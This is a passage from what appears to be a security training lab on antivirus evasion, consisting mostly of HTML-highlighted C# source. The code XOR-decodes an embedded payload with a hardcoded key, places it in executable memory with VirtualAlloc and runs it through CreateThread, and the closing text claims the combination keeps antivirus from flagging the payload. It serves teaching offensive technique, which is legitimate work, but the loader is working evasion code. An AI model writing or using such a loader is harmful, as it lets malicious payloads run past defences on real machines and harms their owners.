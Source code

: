     <span class="token class-name"><span class="token keyword">string</span></span> key <span class="token operator">=</span> <span class="token string">"THMK3y123!"</span><span class="token punctuation">;</span>
    <span class="token comment">//Convert Key into bytes</span>
    <span class="token class-name"><span class="token keyword">byte</span><span class="token punctuation">[</span><span class="token punctuation">]</span></span> keyBytes <span class="token operator">=</span> Encoding<span class="token punctuation">.</span>ASCII<span class="token punctuation">.</span><span class="token function">GetBytes</span><span class="token punctuation">(</span>key<span class="token punctuation">)</span><span class="token punctuation">;</span>

    <span class="token class-name"><span class="token keyword">byte</span><span class="token punctuation">[</span><span class="token punctuation">]</span></span> encoded <span class="token operator">=</span> <span class="token function">xor</span><span class="token punctuation">(</span>data<span class="token punctuation">,</span> keyBytes<span class="token punctuation">)</span><span class="token punctuation">;</span>

    <span class="token class-name">UInt32</span> codeAddr <span class="token operator">=</span> <span class="token function">VirtualAlloc</span><span class="token punctuation">(</span><span class="token number">0</span><span class="token punctuation">,</span> <span class="token punctuation">(</span>UInt32<span class="token punctuation">)</span>encoded<span class="token punctuation">.</span>Length<span class="token punctuation">,</span> MEM_COMMIT<span class="token punctuation">,</span> PAGE_EXECUTE_READWRITE<span class="token punctuation">)</span><span class="token punctuation">;</span>
    Marshal<span class="token punctuation">.</span><span class="token function">Copy</span><span class="token punctuation">(</span>encoded<span class="token punctuation">,</span> <span class="token number">0</span><span class="token punctuation">,</span> <span class="token punctuation">(</span>IntPtr<span class="token punctuation">)</span><span class="token punctuation">(</span>codeAddr<span class="token punctuation">)</span><span class="token punctuation">,</span> encoded<span class="token punctuation">.</span>Length<span class="token punctuation">)</span><span class="token punctuation">;</span>

    <span class="token class-name">IntPtr</span> threadHandle <span class="token operator">=</span> IntPtr<span class="token punctuation">.</span>Zero<span class="token punctuation">;</span>
    <span class="token class-name">UInt32</span> threadId <span class="token operator">=</span> <span class="token number">0</span><span class="token punctuation">;</span>
    <span class="token class-name">IntPtr</span> parameter <span class="token operator">=</span> IntPtr<span class="token punctuation">.</span>Zero<span class="token punctuation">;</span>
    threadHandle <span class="token operator">=</span> <span class="token function">CreateThread</span><span class="token punctuation">(</span><span class="token number">0</span><span class="token punctuation">,</span> <span class="token number">0</span><span class="token punctuation">,</span> codeAddr<span class="token punctuation">,</span> parameter<span class="token punctuation">,</span> <span class="token number">0</span><span class="token punctuation">,</span> <span class="token keyword">ref</span> threadId<span class="token punctuation">)</span><span class="token punctuation">;</span>

    <span class="token function">WaitForSingleObject</span><span class="token punctuation">(</span>threadHandle<span class="token punctuation">,</span> <span class="token number">0xFFFFFFFF</span><span class="token punctuation">)</span><span class="token punctuation">;</span>

  <span class="token punctuation">}</span>
<span class="token punctuation">}</span></code></pre>
</details>

Note that we have merely combined a couple of really simple techniques that were detected when used separately. Still, the AV won't complain about the payload this time, as the combination of both methods is not something it can analyze directly.

